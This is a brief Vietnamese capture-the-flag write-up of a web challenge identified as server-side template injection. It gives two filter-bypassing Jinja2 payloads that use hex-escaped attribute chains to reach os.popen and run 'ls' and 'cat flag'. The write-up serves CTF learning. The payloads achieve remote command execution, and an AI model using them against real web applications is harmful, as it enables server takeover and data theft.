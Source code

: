 Sau khi thử hết mọi phương pháp thì ta xác định được đó là SSTI

Dùng payload tấn công xem web bảo mật không và thấy nó có bảo mật

![image](https://github.com/user-attachments/assets/c4559dd2-5fa3-4974-97ed-c9fc949c64d1)

![image](https://github.com/user-attachments/assets/0c7a0918-ecab-48d4-9c51-e559c0eacc79)

Thử payload
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}

![image](https://github.com/user-attachments/assets/eeb501ec-53cc-4501-a915-ad33c3f96e9e)

Dùng payload để đọc flag:
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}

![image](https://github.com/user-attachments/assets/d9428f1b-80f6-41d4-9b2b-e3430147ca40)
